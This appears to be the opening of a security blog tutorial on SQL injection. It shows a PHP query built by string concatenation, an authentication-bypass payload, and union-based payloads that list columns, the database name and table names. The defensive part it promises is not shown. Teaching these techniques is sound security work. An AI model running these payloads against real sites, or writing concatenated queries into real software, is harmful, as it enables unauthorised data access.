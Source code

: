 ```yaml
---
layout: post
title: "SQL Injection Fundamentals and Advanced Techniques"
description: "Comprehensive guide to SQL injection attack vectors, exploitation techniques, and defensive strategies. Learn from basic concepts to advanced pentesting methods used by security professionals."
date: 2025-07-21 10:00:00 +0000
categories: [Web Security, Penetration Testing]
tags: [sql-injection, web-security, testing, databases, burp-suite, owasp, pentesting, cybersecurity]
image: https://avatars.githubusercontent.com/buggymaytricks?s=1200
author: "buGGy (buggymaytricks)"
sitemap:
  priority: 0.8
  changefreq: monthly
---
```


# SQL Injection Fundamentals and Advanced Techniques

SQL injection remains one of the most critical web application vulnerabilities. This comprehensive guide covers everything from basic concepts to advanced exploitation techniques used by security professionals.

## Understanding SQL Injection

SQL injection occurs when user input is incorrectly sanitized and directly concatenated into SQL queries, allowing attackers to manipulate database logic.

### Basic Example

```php
// Vulnerable code
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";

// Attack payload
username: admin' OR '1'='1' --
```

## Types of SQL Injection

### 1. Union-Based Injection

Extract data by combining results from multiple queries.

```sql
-- Determine number of columns
' ORDER BY 10--

-- Extract data
' UNION SELECT 1,2,3,database()--
' UNION SELECT 1,table_name,3 FROM information_schema.tables--
```
